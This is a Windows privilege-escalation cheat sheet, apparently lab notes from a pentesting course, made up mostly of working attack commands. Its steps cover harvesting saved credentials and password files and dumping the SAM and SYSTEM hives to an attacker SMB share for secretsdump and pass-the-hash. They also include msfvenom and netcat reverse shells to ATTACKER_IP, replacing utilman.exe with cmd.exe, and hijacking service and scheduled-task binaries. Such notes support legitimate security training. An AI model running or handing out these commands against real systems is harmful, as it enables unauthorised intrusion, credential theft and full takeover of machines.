


# Privilege Escalation
## Tools

Windows Privilege Escalation Awesome Scripts - [WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)
Privilege Escalation Enumeration Script for Windows - [PrivescCheck](https://github.com/itm4n/PrivescCheck)
Windows Exploit Suggester - Next Generation - [WES-NG](https://github.com/bitsadmin/wesng)
Metasploit - `multi/recon/local_exploit_suggester`

## Quick Wins
### Unattended Windows Installations
When installing Windows on a large number of hosts, administrators may use Windows Deployment Services. Such installations require the use of an administrator account to perform the initial setup, whose credentials may be left on the host.

```powershell
# Define file paths to check
$files = @(
    "C:\Unattend.xml",
    "C:\Windows\Panther\Unattend.xml",
    "C:\Windows\Panther\Unattend\Unattend.xml",
    "C:\Windows\system32\sysprep.inf",
    "C:\Windows\system32\sysprep\sysprep.xml"
)

foreach ($file in $files) {
    if (Test-Path $file) {
        Write-Host "Checking $file..." -ForegroundColor Cyan
        # Search for the word 'password' in any form
        Select-String -Path $file -Pattern "password" -SimpleMatch -CaseSensitive:$false |
            ForEach-Object {
                Write-Host ("`t" + $_.Line) -ForegroundColor Yellow
            }
    } else {
        Write-Host "File not found: $file" -ForegroundColor DarkGray
    }
}
```

### Powershell History
```powershell
Get-ChildItem C:\Users -Directory |
    ForEach-Object {
        Get-ChildItem "C:\Users\$_\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" -ErrorAction SilentlyContinue
    } |
    Select-Object -ExpandProperty FullName
```

### Saved Windows Credentials
```bat
cmdkey /list
runas /savecred /user:admin cmd.exe
```

### IIS Configuration
```powershell
Get-Content "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config" | Select-String "connectionString"
```

### Putty Credentials
```bat
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

### AlwaysInstallElevated
Windows installer files (`.msi` files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones).

Check registry values regarding `AlwaysInstallElevated`:
```bat
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Prepare payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o revshell.msi
```

Payload execution:
```
C:\> msiexec /quiet /qn /i C:\Windows\Temp\revshell.msi
```


## Abusing Dangerous Privileges

List of privileges on Windows - [Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)\
List of exploitable privileges - [Priv2Admin](https://github.com/gtworek/Priv2Admin)

Check user privileges:
```bat
whoami /priv
```

### SeBackup or SeRestore
The `SeBackup` and `SeRestore` privileges allow users to read and write to any file in the system, ignoring any `DACL` (Discretionary Access Control Lists) in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.

```
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeBackupPrivilege             Back up files and directories  Disabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Backup the SAM and SYSTEM hashes:
```bat
reg save hklm\system C:\Users\<user>\system.hive
reg save hklm\sam C:\Users\<user>\sam.hive
```

Transfer files to attacker machine by setting up smb share via [impacket](https://github.com/fortra/impacket):
```
mkdir share
python /opt/impacket/examples/smbserver.py -smb2support -username <username> -password <password> public share
```
```
copy C:\Users\<user>\sam.hive \\ATTACKER_IP\public\
copy C:\Users\<user>\system.hive \\ATTACKER_IP\public\
```

Retrieve the users' password hashes:
```
python3 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

Perform a Pass-the-Hash attack using Administrator's hash:
```
python3 /opt/impacket/examples/psexec.py -hashes <LM_Hash>:<NT_Hash> administrator@$IP
```

### SeTakeOwnership
The `SeTakeOwnership` privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges.

```
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```

Attacker can gain `SYSTEM` privileges if he replaces the binary that is run with `SYSTEM` privileges like `utilman.exe`.

Take ownership of `utilman.exe`:
```bat
takeown /f C:\Windows\System32\utilman.exe
```

Take full permissions over targeted executable:
```bat
icacls C:\Windows\System32\utilman.exe /grant THMTakeOwnership:F
```

Replace `utilman.exe` with a copy of `cmd.exe`:
```bat
copy cmd.exe utilman.exe
```

||
|:--:| 
| *To trigger utilman, lock screen from the start button and ...* |
||
| *... Click on "Ease of access" button* |

### SeImpersonate or SeAssignPrimaryToken
The `SeImpersonate` and `SeAssignPrimaryToken` privileges allow a process to impersonate other users and act on their behalf. Impersonation usually consists of being able to spawn a process or thread under the security context of another user.

```
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Exploitation using [RogueWinRM.exe](https://github.com/antonioCoco/RogueWinRM):
```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP ATTACKER_PORT"
```

## Abusing Scheduled Tasks Misconfigurations
Misconfigured task may allow attacker to modify executable file.

Retrieve detailed information about services:
```bat
schtasks /query /tn <task_name> /fo list /v
```

Check the file permissions on the executable:
```bat
icacls C:\<path_to_name_file>.bat
```

If permissions allow, modify executable by replacing it with malicious payload.

Prepare payload:
```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > c:\<path_to_name_file>.bat
OR
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe -o revshell.exe
```

## Abusing Service Misconfigurations
Misconfigured service may allow attacker to modify executable file.

All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`.

Retrieve detailed information about service (in cmd):
```bat
sc qc <service_name>
```
Retrieve detailed information about service (in powershell):
```powershell
sc.exe qc <service_name>
```

### Insecure Permissions on Service Executable

Check the file permissions on the executable:
```bat
icacls C:\<path_to_name_file>.bat
```

If permissions allow, modify executable by replacing it with malicious payload.

Prepare payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o revshell-svc.exe
```

Restart service (if possible):
```bat
sc stop <service_name>
sc start <service_name>
```

### Unquoted Service Paths
Unquoted service binary path may allow attacker to profide mailcious binary file.

In case of unquoted service Service Control Manager (SCM) will try to execute binary `C:\Programs\test1 test2\target.exe`in the follwing order.
1. `C:\Programs\test1.exe`
2. `C:\Programs\test1 test2.exe`
2. `C:\Programs\test1 test2\target.exe`

Check the directory permissions to place malicious executable:
```bat
icacls C:\<directory_path>
```

If permissions allow, create malicious binary with payload and place it in a given directory

Prepare payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o revshell-svc.exe
```

Restart service (if possible):
```bat
sc stop <service_name>
sc start <service_name>
```

### Insecure Service Permissions
Insecure Service Permissions may allow attacker to modify service with malicious payload.

Check for a service DACL using [Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk):
```powershell
accesschk64.exe -qlc <service_name>
```

`SERVICE_ALL_ACCESS` permission means that any user can reconfigure the service.

Prepare payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f exe-service -o revshell-svc.exe
```

Grant permissions to Everyone to execute your payload:
```bat
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```

Change the service's associated executable and account:
```bat
sc config <service_name> binPath= "C:\Users\<user>\revshell-svc.exe" obj= LocalSystem
```

Restart service (if possible):
```bat
sc stop <service_name>
sc start <service_name>
```

## Abusing Vulnerable Software

List software installed on the target system and its versions:
```bat
wmic product get name,version,vendor
```
